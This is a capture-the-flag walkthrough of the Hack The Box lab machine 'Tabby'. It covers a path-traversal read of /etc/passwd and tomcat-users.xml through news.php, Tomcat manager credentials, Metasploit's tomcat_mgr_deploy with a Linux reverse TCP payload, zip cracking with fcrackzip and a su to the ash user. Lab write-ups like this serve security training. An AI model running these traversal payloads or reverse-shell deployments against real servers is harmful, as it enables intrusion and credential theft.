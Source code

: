 # Tabby - Linux - Easy

## TL;DR

find tomcat9 user config file, get user and password as `tomcat` and `$3cureP4s5w0rd123!`, use metasploit module `multi/http/tomcat_mgr_deploy`, set target to 3 as linux, exploit, set payload as linux reverse tcp, exploit. Find `16162020_backup.zip`, crack zip password using fcrackzip as `admin@it`, use metasploit and get shell, `su ash`:`admin@it`, get user flag. Use `sudo cat /root/root.txt` and get root flag.

## Breaking it down

`nmap -sC -sV -A -T4 -p- 10.10.10.194`
```
Nmap scan report for tabby.htb (10.10.10.194)
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
| http-methods: 
|_  Supported Methods: OPTIONS
|_http-title: Mega Hosting
8080/tcp open  http-proxy
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
```

add to `/etc/hosts` 10.10.10.194 as `tabby.htb`

go to `10.10.10.194` as website

update `/etc/hosts` 10.10.10.194 as `megahosting.htb`


navigate to news

```
We apologise to all our customers for the previous data breach.

We have changed the site to remove this tool, and have invested heavily in more secure servers`
```

http://10.10.10.194/news.php?file=statement

the url indicates that the file is being served from server side, possible lfi.

http://10.10.10.194/news.php?file=../../../../../etc/passwd

gives us root and ash having /bin/bash


tomcat9 has a manager login, and can find users in tomcat-users.xml
in order to find the directory that tomcat is located, we will install the tomcat9 server locally with `sudo apt-get install tomcat9` and manually from the tomcat website, and then we will run `sudo find / -name tomcat-users*`

```
/usr/share/tomcat9/etc/tomcat-users.xml
/opt/tomcat/conf/tomcat-users.xsd
/opt/tomcat/conf/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml
```

get the config file using one of those links, will not be visible as an actual page.

wget http://10.10.10.194/news.php?file=../../../../../usr/share/tomcat9/etc/tomcat-users.xml 

   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>

go to http://10.10.10.194:8080/host-manager/html/ and login



use metasploit and the metasploit module `multi/http/tomcat_mgr_deploy`, set all options and switch target to 3 for linux, exploit.



## Wrong pathways

Attempted to script up service downloading every file that matched using bash
Attempted setting up smbserver using smbserver.py from impacket and hosting a .war file to deploy on the machine
Attempted to use lxd exploit
https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/
https://hacknews247.com/how-to/20191012/lxd-privilege-escalation.html/amp

## What did I learn?
- find from bash
- ls -l
- sudo -l -U ash